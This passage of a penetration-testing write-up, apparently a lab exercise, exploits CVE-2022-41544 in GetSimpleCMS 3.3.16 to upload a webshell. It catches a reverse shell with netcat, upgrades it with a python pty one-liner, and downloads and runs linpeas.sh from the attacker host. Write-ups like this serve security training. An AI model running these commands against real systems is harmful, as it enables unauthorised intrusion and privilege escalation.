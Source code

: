 Utilizing the identified exploit for GetSimpleCMS Version 3.3.16, we executed a successful attack that resulted in a reverse shell connection to the target machine. The reverse shell was established under the 'www-data' user context, providing us with an initial foothold within the system:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 exploit.py 192.168.254.130 / 192.168.254.129:1234 simpleuser
/home/kali/Downloads/exploit.py:16: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  import telnetlib

 CCC V     V EEEE      22   000   22   22      4  4  11  5555 4  4 4  4 
C    V     V E        2  2 0  00 2  2 2  2     4  4 111  5    4  4 4  4 
C     V   V  EEE  ---   2  0 0 0   2    2  --- 4444  11  555  4444 4444 
C      V V   E         2   00  0  2    2          4  11     5    4    4 
 CCC    V    EEEE     2222  000  2222 2222        4 11l1 555     4    4 
 
[+] the version 3.3.16 is vulnrable to CVE-2022-41544
[+] apikey obtained cd5ed65b315f5017db46d154b38256b7
[+] csrf token obtained
[+] Shell uploaded successfully!
[+] Webshell trigged successfully!
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 1234
listening on [any] 1234 ...
192.168.254.130: inverse host lookup failed: Unknown host
connect to [192.168.254.129] from (UNKNOWN) [192.168.254.130] 59872
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@simple:/var/www/html/getsimple$ whoami
whoami
www-data
www-data@simple:/var/www/html/getsimple$ 
```

# Lateral Movement

As part of our exploitation strategy, we proceeded to transfer the 'linpeas.sh' binary to the compromised machine. This versatile script, 'linpeas.sh,' is a powerful tool commonly used for conducting Linux privilege escalation checks. By running 'linpeas.sh' on the target system, we aimed to thoroughly assess potential avenues for escalating our privileges and gaining higher levels of access within the compromised environment:

```
www-data@simple:/var/www/html/getsimple$ cd /tmp
cd /tmp
www-data@simple:/tmp$ wget http://192.168.254.129:8000/linpeas.sh
wget http://192.168.254.129:8000/linpeas.sh
--2023-09-23 10:39:50--  http://192.168.254.129:8000/linpeas.sh
Connecting to 192.168.254.129:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134168 (131K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 131.02K  --.-KB/s    in 0.03s   

2023-09-23 10:39:50 (4.90 MB/s) - ‘linpeas.sh’ saved [134168/134168]

www-data@simple:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@simple:/tmp$ ./linpeas.sh

```
